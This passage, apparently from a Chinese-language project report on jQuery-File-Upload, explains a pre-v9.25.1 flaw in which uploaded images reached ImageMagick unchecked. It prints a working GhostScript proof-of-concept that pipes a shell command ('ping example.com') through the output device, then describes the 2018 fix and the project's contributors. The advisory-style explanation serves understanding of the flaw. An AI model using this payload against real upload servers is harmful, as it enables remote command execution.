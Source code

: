  [v9.25.1](https://github.com/blueimp/jQuery-File-Upload/releases/tag/v9.25.1)之前 [PHP 上传处理程序在调用](https://github.com/blueimp/jQuery-File-Upload/blob/master/server/php/UploadHandler.php)[ImageMagick](https://www.imagemagick.org/) 之前没有验证文件签名。攻击者可以使用 GhostScript 来执行任意代码。攻击者会把如下的 GhostScript 示例保存成为 PNG、GIF 或 JPG 文件，然后再把他们上传到服务器中。服务器会执行 `ping example.com` 这个指令。虽然不同的操作系统中GhostScript可能会有一些不同，但是ping指令可以运行在大多数的环境中，这样攻击者就能利用自动化的手段来发现程序存在的漏洞。 

```ghostscript
%!PS
userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%ping example.com) currentdevice putdeviceprops
```

作者在2018年10月25日修复了漏洞：将 ImageMagick 配置为仅启用 `GIF/JPEG/PNG`处理所需的编码器，例如使用示例 [ImageMagick config](https://github.com/blueimp/jQuery-File-Upload/blob/master/SECURITY.md#imagemagick-config)。

### 5 主要贡献者的构成（国家、区域和组织等） 

 项目主要由个人开发者 Sebastian Tschan（id: blueimp，位于日本东京）软件工程师完成。 

<img src="images/3.png" alt="img" style="zoom:50%;" />

除此之外有98位开发者对项目进行了微小的调整和贡献。 
